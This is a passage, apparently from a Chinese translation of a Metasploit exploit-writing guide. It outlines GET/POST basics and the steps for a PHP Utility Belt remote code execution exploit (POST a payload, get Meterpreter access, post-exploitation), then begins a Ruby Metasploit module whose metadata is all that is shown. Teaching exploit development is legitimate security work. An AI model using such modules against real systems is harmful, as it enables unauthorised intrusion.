 ![](img/a1ae8b68-eddd-4e6e-b464-3bbaa675cbf9.png)

通过使用前述参数，我们可以传递与我们的请求相关的各种值。一个例子是设置我们特定的 cookie 和我们选择的其他参数。让我们保持简单，专注于`URI`参数，即可利用的 Web 文件的路径。

`method`参数指定它是`GET`还是`POST`类型的请求。在获取/发布数据到目标时，我们将使用这些。

# GET/POST 方法的基本要点

`GET`方法将请求数据或来自指定资源的网页，并用它来浏览网页。另一方面，`POST`命令将来自表单或特定值的数据发送到资源进行进一步处理。现在，在编写基于 Web 的利用时，这非常方便。HTTP 库简化了将特定查询或数据发布到指定页面。

让我们看看我们需要在这个利用中执行的操作：

1.  创建一个`POST`请求

1.  使用`CODE`参数将我们的有效载荷发送到易受攻击的应用程序

1.  获取目标的 Meterpreter 访问权限

1.  执行一些后期利用功能

我们清楚我们需要执行的任务。让我们进一步迈出一步，生成一个兼容的匹配利用，并确认它是否有效。

# 将 HTTP 利用导入 Metasploit

让我们按照以下方式编写 Metasploit 中 PHP 实用程序皮带远程代码执行漏洞的利用：

```
class MetasploitModule < Msf::Exploit::Remote 

  include Msf::Exploit::Remote::HttpClient 

  def initialize(info = {}) 
    super(update_info(info, 
      'Name'           => 'PHP Utility Belt Remote Code Execution', 
      'Description'    => %q{ 
         This module exploits a remote code execution vulnerability in PHP Utility Belt 
      }, 
      'Author'         => 
        [ 
          'Nipun Jaswal', 
        ], 
      'DisclosureDate' => 'May 16 2015', 
```